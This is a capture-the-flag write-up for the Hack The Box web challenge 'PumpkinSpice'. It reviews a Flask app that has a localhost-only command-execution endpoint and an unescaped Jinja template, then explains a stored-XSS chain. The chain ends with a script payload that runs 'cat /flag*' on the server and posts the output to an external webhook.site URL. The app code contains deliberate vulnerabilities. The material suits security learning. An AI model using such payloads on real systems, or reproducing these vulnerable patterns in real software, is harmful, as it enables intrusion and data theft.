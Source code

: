 ```yaml
---
clayout: ctf
title: PumpkinSpice
date: 2024-12-31
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: PumpkinSpice
      link: https://app.hackthebox.com/challenges/625
      thumbnail: /ctf/hack-the-box/challenges/web/pumpkin-spice/thumbnail.svg
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/625
          thumbnail: /ctf/hack-the-box/challenges/web/pumpkin-spice/pwned.png
---
```


## Challenge Description

In the realm of cyberspace, a hacker collective known as the "Phantom Pumpkin Patch" has unearthed a sinister
Halloween-themed website, guarded by a devious vulnerability. As the moon casts an ominous glow, get ready to exploit
this spectral weakness

## Challenge Overview

This challenge presents a web application called **Pumpkin Spice**, where users can input their address to "receive a
free treat." The application has multiple endpoints for interacting with the server. Our goal is to exploit
vulnerabilities in the application to retrieve the flag.

![PumpkinSpice - Overview](/ctf/hack-the-box/challenges/web/pumpkin-spice/overview.png){style="display: block; margin: 0 auto;"}

## Code review

The application uses **Flask** as its backend framework. The backend code is straightforward and is contained in a
single file, `app.py`.

```python
import subprocess
import time
from threading import Thread

from flask import Flask, request, render_template

app = Flask(__name__)

addresses = []


def start_bot():
    from selenium import webdriver
    from selenium.webdriver.chrome.options import Options
    from selenium.webdriver.chrome.service import Service

    host, port = "localhost", 1337
    HOST = f"http://{host}:{port}"

    options = Options()

    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--disable-infobars")
    options.add_argument("--disable-background-networking")
    options.add_argument("--disable-default-apps")
    options.add_argument("--disable-extensions")
    options.add_argument("--disable-gpu")
    options.add_argument("--disable-sync")
    options.add_argument("--disable-translate")
    options.add_argument("--hide-scrollbars")
    options.add_argument("--metrics-recording-only")
    options.add_argument("--mute-audio")
    options.add_argument("--no-first-run")
    options.add_argument("--dns-prefetch-disable")
    options.add_argument("--safebrowsing-disable-auto-update")
    options.add_argument("--media-cache-size=1")
    options.add_argument("--disk-cache-size=1")
    options.add_argument("--user-agent=HTB/1.0")

    service = Service(executable_path="/usr/bin/chromedriver")
    browser = webdriver.Chrome(service=service, options=options)

    browser.get(f"{HOST}/addresses")
    time.sleep(5)
    browser.quit()


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")


@app.route("/addresses", methods=["GET"])
def all_addresses():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    return render_template("addresses.html", addresses=addresses)


@app.route("/add/address", methods=["POST"])
def add_address():
    address = request.form.get("address")

    if not address:
        return render_template("index.html", message="No address provided")

    addresses.append(address)
    Thread(target=start_bot, ).start()
    return render_template("index.html", message="Address registered")


@app.route("/api/stats", methods=["GET"])
def stats():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    command = request.args.get("command")
    if not command:
        return render_template("index.html", message="No command provided")

    results = subprocess.check_output(command, shell=True, universal_newlines=True)
    return results


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

The website has 4 endpoints:

- `/` - The main page where we can input our address
- `/addresses` - The page where we can see all the addresses that have been inputted
- `/add/address` - The endpoint to add an address
- `/api/stats` - The endpoint to run a command

The vulnerability is in the `/api/stats` endpoint. This endpoint allows us to run a command on the server. The command
is passed as a query parameter `command`. The command is executed using the `subprocess.check_output` function. This
function is used to run a command and return its output. But the `/api/stats` endpoint is only accessible from
localhost.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="author" content="lean">
    <title>🎃 Pumpkin Spice 🎃</title>
</head>
<body>
<h1>System stats:</h1>
<p id="stats"></p>
<h1>Addresses:</h1>
{% for address in addresses %}
<p>{{ address|safe }}</p>
{% endfor %}
<script src="/static/js/script.js"></script>
</body>
</html>
```

The HTML code above is the `addresses.html` file. This file is used to display all the addresses that have been inputted
by the user. The addresses are displayed using a for loop. The `address|safe` filter is used to tell **Jinja** that the
address is safe and should not be escaped. That means that the content of the address variable will be rendered exactly
as it is, without additional HTML escaping. This allows any HTML or JavaScript included in the address to be displayed
or executed directly in the browser.

This is a classic example of a **Cross-Site Scripting (XSS)** vulnerability. An attacker can input a malicious script
as an address, and when the address is displayed on the page, the script will be executed in the context of the user's
browser.

## Exploitation - XSS

To exploit this vulnerability, we need to input a malicious script as an address. The script will be executed when the
address is displayed on the page. We can use a script that sends a request to the `/api/stats` endpoint with a command
to read the flag file. And them send the output to a `webhook.site` endpoint.

```html

<script>
    fetch("/api/stats?command=cat+/flag*")
        .then(async data => {
            fetch("https://webhook.site/your-webhook-id", {
                method: "POST",
                body: await data.text(),
            })
        })
</script>
```

After inputting the script as an address, we can see the flag in the `webhook.site` endpoint.

![PumpkinSpice - Flag](/ctf/hack-the-box/challenges/web/pumpkin-spice/flag.png)

We've successfully exploited the vulnerability and retrieved the flag.

## References

- [Webhook.site](https://webhook.site)
